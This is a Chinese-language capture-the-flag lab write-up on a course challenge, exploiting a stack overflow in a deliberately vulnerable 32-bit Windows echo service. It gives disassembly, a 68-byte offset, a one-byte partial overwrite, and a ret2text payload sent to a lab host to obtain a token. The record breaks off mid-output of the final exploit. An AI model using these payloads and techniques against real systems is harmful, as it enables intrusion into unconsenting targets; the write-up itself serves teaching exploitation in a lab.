










# 5-1 系统层漏洞利用与逆向分析 · DEP 数据执行保护利用（ret2text 与 1 字节部分覆盖）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-DEP数据执行保护利用-G1（sectionID `6635`，课程内 number 18，题目内部编号 `C026-G1-F`） |
| 分类 | Pwn / 逆向分析 / 系统层漏洞利用（Windows PE 32 位栈溢出 + DEP 绕过） |
| 题目描述 | 靶机 `172.17.159.230:9999` 上运行一个 Echo 服务（banner `Echo service` / `Input: `），附件 `challenge.exe` 就是它的 Windows 可执行文件。要求下载附件做本地逆向，找到程序中的漏洞，连接靶机**劫持控制流**，触发 `get_flag()` 函数取得**一次性凭证**（有效期 10 分钟），再拿凭证到实验环境里的 flag 兑换容器换取 flag。 |

Flag 题（questionID=8823）题干原文要点：

> * 运行题目的靶机地址：`172.17.159.230:9999`
> * 在「实验环境」中申请的容器运行 flag 兑换服务
>
> 附件中提供了运行在靶机上的 `challenge.exe`，请下载后进行本地逆向分析。找到程序中的漏洞，连接靶机并劫持控制流，触发 `get_flag()` 函数以获取一次性凭证（有效期 10 分钟）。
>
> 使用 `nc` 连接靶机：`nc 172.17.159.230:9999`
>
> 成功获取一次性凭证后，在你自己的电脑上访问 flag 容器兑换 flag：`curl "http://<Flag容器IP>:<port>/flag?token=<你的凭证>"`

Note：本题是该系列 G1 题，防护配置是「**DEP 开、ASLR 关、无 /GS 栈 Cookie**」——这三个开关的组合决定了它不需要 ROP 链，一次 `ret2text` 即可（步骤 3、8）；此外本文记录的**只发 68 字节的 1 字节部分覆盖**是同一漏洞的第二种利用长度（步骤 7），是本题最值得留意的细节。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID `1639`，本章节 `sectionID` `6635`（课程内 number 18） |
| 账号 | 平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（8791 / 8793 / 8795）+ 1 道多选（8797）+ 1 道 Flag 填空（8823）；题面接口返回 `answersTotal=5`、`isResubmit=false` ⇒ **判分只有一次机会** |
| 靶机实例 | envID `1157`（实验环境名 `C026-G1-F`），podID `5vrzogxyrp9jh4wnmpzbsvil0`，容器名 `s-148725`，image `172.17.0.105:8083/t-11637/c026-g1-f:2026`；交付时 `state=Running`，`targetPorts=[22,80]` |
| 端口映射（实测 `portInfos`） | `13054 → 22`（SSH）、**`13055 → 80`（flag 兑换服务）** |
| flag 兑换服务 | `http://172.17.0.13:13055/flag?token=<token>`（HTTP，返回 `text/plain`） |
| Pwn 靶机 | `172.17.159.230:9999`，实测 banner `Echo service\r\nInput: ` |
| 附件 | `challenge.exe`：PE32 executable (console) Intel 80386, for MS Windows，116224 B（题面附件表显示 113.5 K），MD5 `3985ee791e97677915abf2542cea1358` |
| 章节附件 | `C026-DEP数据执行保护利用.md`（DEP 原理与实验方法）、`系统层漏洞利用与逆向分析-DEP数据执行保护利用-G1.md`（课程提供的参考 WriteUp，Ghidra 视角，不含 flag；本文结论由本地 `objdump` 独立复核） |
| 本机工具 | 无 pwntools / pefile / Ghidra；用 Apple LLVM `objdump`（21.0.0）+ Python3 原生 `socket` / `struct` 完成全部利用与验证 |
| 选择题判分 | 4 道选择题的判定结果与平台判分一致（`isCorrect` 全为 true）：**8791=C、8793=A、8795=B、8797=A+B**；按惯例本文不展开选择题解析 |

## 解题过程

### 1. 附件下载与完整性核对（截图 01）

题目附件不走章节附件接口：`GET /api/student/section/file/<filename>?ID=6635&decryptStr=` 能取到两份章节 `.md`，但对 `challenge.exe` 返回 `code 10092 query section file failed`。正确姿势是题目附件接口，且 `ID` 必须填 **questionID（8823）** 而不是 `questionFiles[].id`（1139）：

```bash
HEAD /api/question/file/challenge.exe?ID=8823      # 200，响应头带 Url: 与 Filename:
GET  /api/question/file/challenge.exe?ID=8823      # 116224 B
```

> 踩坑记录：`ID` 填 `questionFiles[].id`（1139）时返回头为
> `X-Error-Message: interface quote param is not exist`，前端把它映射成「参数不存在」。改用 questionID 后下载正常。

下载后用 `md5` / `file` 核对体积与哈希，再连一次靶机确认服务在线：

```console
$ md5 .local/process/5-1-scripts/files/challenge.exe
MD5 (files/challenge.exe) = 3985ee791e97677915abf2542cea1358
$ file .local/process/5-1-scripts/files/challenge.exe
files/challenge.exe: PE32 executable (console) Intel 80386, for MS Windows

$ python3 -c "socket 连接 172.17.159.230:9999 读取 banner"
BANNER: b'Echo service\r\nInput: '
```

MD5 与体积同题面给出一致，说明附件未被篡改；banner 中的两个字符串（`Echo service`、`Input: `）随后在二进制数据段里被原样定位到（步骤 3），确认靶机上跑的正是这份程序。



### 2. 静态分析：PE 标志与导出表（截图 03）

```console
$ objdump -p files/challenge.exe          # 完整输出存 logs/objdump-p.txt
ImageBase               00400000
Subsystem               00000003   (Windows CUI)
DllCharacteristics      00008100
                        NX_COMPAT             ← 映像声明兼容 DEP/NX
Export Table:
 DLL name: challenge.exe
 Ordinal base: 1
 Ordinal      RVA  Name
       1   0x1000  get_flag
       2   0x1020  vuln
Load configuration:
  Security Cookie: 4313152           ← 0x41D040，CRT 全局 Cookie 变量存在
```

三条关键结论：

1. `DllCharacteristics = 0x8100` = `NX_COMPAT`（0x0100）+ `TERMINAL_SERVER_AWARE`（0x8000），**没有 `DYNAMIC_BASE`（0x0040）** ⇒ 该 PE 未启用 ASLR，加载基址固定为 `ImageBase = 0x400000`；
2. `ImageBase = 0x400000`、导出 RVA `get_flag = 0x1000` / `vuln = 0x1020` ⇒ 静态地址 **`get_flag = 0x00401000`**、`vuln = 0x00401020`，无需任何泄露即可使用；
3. Load Configuration 里有全局 Security Cookie（`0x41D040`），说明 CRT 部分开了 `/GS`——但**漏洞函数本身有没有**要单独看反汇编（步骤 3）。



### 3. 反汇编复核：偏移 68、无界读取与无 /GS（截图 03）

> 踩坑：`objdump -d --disassemble-symbols=get_flag,vuln` 在本机 Apple LLVM 版 objdump 上对 PE 无效，会退化成整段 `.text`（十几万行，`logs/objdump-d-vuln.txt` 达 1.8 MB）；必须改用 `--start-address/--stop-address` 按地址范围反汇编。

```console
$ objdump -d -M intel --start-address=0x401000 --stop-address=0x401060 files/challenge.exe
00401000 <get_flag>:
  401000: 55                    push ebp
  401001: 8b ec                 mov  ebp, esp
  401003: ff 15 30 61 41 00     call dword ptr [0x416130]   ← getflag.dll!GetFlag()
  401009: 6a 00                 push 0x0
  40100b: ff 15 08 60 41 00     call dword ptr [0x416008]   ← KERNEL32!ExitProcess(0)
  401011: 90                    nop
  401012: 5d                    pop  ebp
  401013: c3                    ret

00401020 <vuln>:
  401020: 55                    push ebp
  401021: 8b ec                 mov  ebp, esp
  401023: 83 ec 40              sub  esp, 0x40               ← 栈上缓冲区 64 字节
  401026: 68 00 d0 41 00        push 0x41d000               ← "Input: "
  40102b: e8 e0 00 00 00        call 0x401110
  401030: 83 c4 04              add  esp, 0x4
  401033: 8d 45 c0              lea  eax, [ebp - 0x40]      ← 缓冲区首址 = ebp-0x40
  401036: 50                    push eax
  401037: e8 99 53 00 00        call 0x4063d5               ← 无长度检查的读入（gets 语义）
  40103c: 83 c4 04              add  esp, 0x4
  40103f: 8d 4d c0              lea  ecx, [ebp - 0x40]
  401042: 51                    push ecx
  401043: 68 08 d0 41 00        push 0x41d008               ← "Echo: %s\n"
  401048: e8 c3 00 00 00        call 0x401110
  40104d: 83 c4 08              add  esp, 0x8
  401050: 8b e5                 mov  esp, ebp
  401052: 5d                    pop  ebp
  401053: c3                    ret
```

**偏移推导（自己算，不照抄题面附件）**：

```text
缓冲区首址        = ebp - 0x40        （64 字节）
saved EBP         = [ebp]             （4 字节）
saved 返回地址    = [ebp + 4]
缓冲区首字节 → 返回地址首字节 = 0x40 + 4 = 64 + 4 = 68 字节
```

安全机制的三点确认：

1. **无界读取**：`0x401037` 调用的 `0x4063d5` 内部是 `push 0x1; push -1; push buf; call 0x406272`——长度参数 `-1` 意味着读入无上限，语义等同 `gets`：读到换行为止，并在字符串末尾补一个 `\0`（该行为在步骤 7 被实测反向确认）；
2. **`vuln` 没有 /GS**：函数序言里没有 `__security_cookie` 的 `xor [ebp-x], eax` 检查；对照 CRT 里的其它函数（如 `0x401c00` 一带）才有 `mov eax,[0x41d040]; xor [ebp-8],eax`。所以 `vuln` 的返回地址可以被直接覆盖；
3. **DEP 已开**：`NX_COMPAT` 意味着栈、堆等数据页不可执行，注入 shellcode 的路被堵死；但 `get_flag` 位于 `.text`（`0x401000`，可执行页）——**DEP 只拦「数据页执行」，不拦「跳到已有代码」**，这就是 `ret2text` 成立的原因。

`0x4063d5` 与本函数数据段的字符串（用 Python 解析 PE 节表后按 RVA 定位，非猜测）：

```console
RVA 0x1d000 (VA 0x41d000) : b'Input: \x00'
RVA 0x1d008 (VA 0x41d008) : b'Echo: %s\n\x00'
RVA 0x1d014 (VA 0x41d014) : b'Echo service\n\x00'
```

### 4. 调用点确认：`call vuln` 的返回地址是 0x4010C0（截图 03）

`vuln` 只有一个调用点，它的返回地址决定了步骤 7「部分覆盖」能被清成什么值：

```console
$ objdump -d -M intel --start-address=0x4010ae --stop-address=0x4010c4 files/challenge.exe
  4010ae: 68 14 d0 41 00        push 0x41d014               ← "Echo service\n"
  4010b3: e8 58 00 00 00        call 0x401110
  4010b8: 83 c4 04              add  esp, 0x4
  4010bb: e8 60 ff ff ff        call 0x401020 <vuln>       ← 唯一调用点
  4010c0: 33 c0                 xor  eax, eax               ← 返回地址 = 0x4010C0
  4010c2: 5d                    pop  ebp
  4010c3: c3                    ret
```

即 `call vuln` 压入的返回地址是 **`0x004010C0`**——它的最低字节是 `C0`，只要把这一字节清零就得到 `0x00401000 = get_flag`（步骤 7）。

### 5. 失败对照一：只发 64 字节，不触碰返回地址（截图 02）

本机无 pwntools，用 Python `socket` + `struct` 写利用脚本（`.local/process/5-1-scripts/exploit.py`），四个用例共用同一套收发逻辑。第一个对照只填满缓冲区：

```console
[*] case: FAILURE CONTROL 1: 64B fill only (ret addr untouched)
[*] payload len = 64
[*] banner: b'Echo service\r\nInput: '
[*] raw response:
Echo service
Input: Echo: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

（连接随之关闭，全程没有任何 Token 字样）
```

64 字节刚好写满 `ebp-0x40` 的缓冲区，`gets` 补的 `\0` 落在 saved EBP 的最低字节上，返回地址 `0x4010C0` 不变，程序沿原路径走完 `xor eax,eax; pop ebp; ret` 正常返回 ⇒ **无凭证**。这是本题真正的失败对照。

### 6. 失败对照二：68 字节 + 无效地址 0xdeadbeef（截图 02）

第二个对照明确把返回地址覆盖成一个无效地址，验证「返回地址确实可被覆盖」以及「跳到无效地址无凭证」：

```console
[*] case: FAILURE CONTROL 2: 68B + p32(0xdeadbeef) invalid target
[*] payload len = 72
[*] raw response:
Echo service
Input: Echo: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC锞??

（回显把 4 字节 0xdeadbeef 当字符串一起打印；随后进程跳转到 0xdeadbeef 崩溃，无任何凭证）
```

返回值 `0xdeadbeef` 的小端字节序是 `\xef\xbe\xad\xde`，脚本按 `cp936` 解码时必然产生替换字符（图里的 `锞??`），这是解码副作用，不是伪造回显；关键是进程随后崩溃、**没有**任何凭证输出。


### 7. 备选解法：只发 68 字节，靠 `gets` 的 NUL 做 1 字节部分覆盖（截图 02b）

第一轮取证时把「只发 68 字节」当成第三条失败对照，实测结果与预期**相反**——拿到了 token：

```console
[*] case: SIDE OBSERVATION 3: 68B fill, NUL only zeroes low byte of ret addr
[*] payload len = 68
[*] raw response:
Echo service
Input: Echo: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

[+] Token (valid 10 min, one-time):
1791879551.6PN5icmoeqG-S85kCwLh-HipIQzu-S9nRuVkbx3CrnmsonZ7kaHGtD96uA4OXtLmnzuTZfX6PhzWp5sBLyBbZw
```

原因已经由步骤 3、4 的反汇编独立确认，是一条完整的因果链：

```text
1. 读入是 gets 语义：读到换行，并在字符串末尾写一个 \0；
2. 发 68 字节时，buf+68 = (ebp-0x40) + 68 = ebp+4  →  正是返回地址的最低字节；
3. vuln 的调用点 0x4010bb 的返回地址 = 0x004010C0；
4. \0 只清零最低字节 ⇒ 0x004010C0 → 0x00401000 = get_flag；
5. 于是「只填充 68 字节」等价于一次 1 字节的 partial overwrite（部分覆盖），同样命中 get_flag。
```

因此该用例在本文中记为「**部分覆盖备选解法**」，**不是**失败尝试、更不是「被 DEP 拦下」：DEP 在这条路径上同样没有被触发，因为控制流仍然落在 `.text` 里。它的意义在于说明同一个漏洞有**两种利用长度**——72 字节（显式覆盖返回地址）与 68 字节（只靠终止符清最低字节）。



### 8. 正式利用：ret2text（68 字节填充 + `p32(0x00401000)`）（截图 04）

拿到偏移后再发一条「标准 payload」——68 字节填充走完缓冲区与 saved EBP，接着 4 字节小端返回地址：

```console
$ cd .local/process/5-1-scripts
$ python3 exploit.py exploit
[*] case: EXPLOIT: 68*'A' + p32(0x00401000)
[*] payload len = 72 hex = 414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414100104000
[*] banner: b'Echo service\r\nInput: '
[*] raw response:
Echo service
Input: Echo: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

[+] Token (valid 10 min, one-time):
